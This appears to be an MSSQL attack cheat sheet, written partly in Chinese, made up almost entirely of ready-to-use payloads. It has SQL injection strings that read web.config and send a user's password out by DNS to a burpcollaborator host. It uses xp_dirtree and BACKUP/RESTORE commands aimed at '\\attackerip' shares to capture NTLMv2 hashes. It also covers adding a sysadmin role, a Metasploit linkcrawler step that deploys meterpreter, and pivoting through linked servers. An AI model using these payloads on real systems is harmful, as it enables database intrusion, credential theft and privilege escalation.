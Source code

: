 	EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
	多行执行
	EXECUTE sp_execute_external_script @language = N'Python', @script = N'
	import sys
	print(sys.version)
	'
	GO
 ##### OOB
	dnslog
	需要VIEW SERVER STATE 权限
	1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))

	需要 CONTROL SERVER 权限
	1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
	1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
	
	UNC Path
	MSSQL支持堆查询，创建一个指向我们的 IP 地址的变量，然后使用 xp_dirtree 函数列出我们 SMB 共享中的文件并获取 NTLMv2 哈希
	1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
	xp_dirtree '\\attackerip\file'
	xp_fileexist '\\attackerip\file'
	BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
	BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
	RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
	RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
	RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
	RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
	RESTORE LABELONLY FROM DISK = '\\attackerip\file'
	RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
	RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'

	添加DBA
	EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;

	信任链接
	数据库之间的链接甚至可以跨林信任工作
	msf> use exploit/windows/mssql/mssql_linkcrawler
	[msf> set DEPLOY true] 如果要利用获取meterpreter会话的权限，将DEPLOY设置为true

	查找链接
	select * from master..sysservers

	通过链接执行查询
	select * from openquery("dcorp-sql1", 'select * from master..sysservers')
	select version from openquery("linkedserver", 'select @@version as version');

	多条查询
	select version from openquery("link1",'select version from openquery("link2","select @@version as version")')
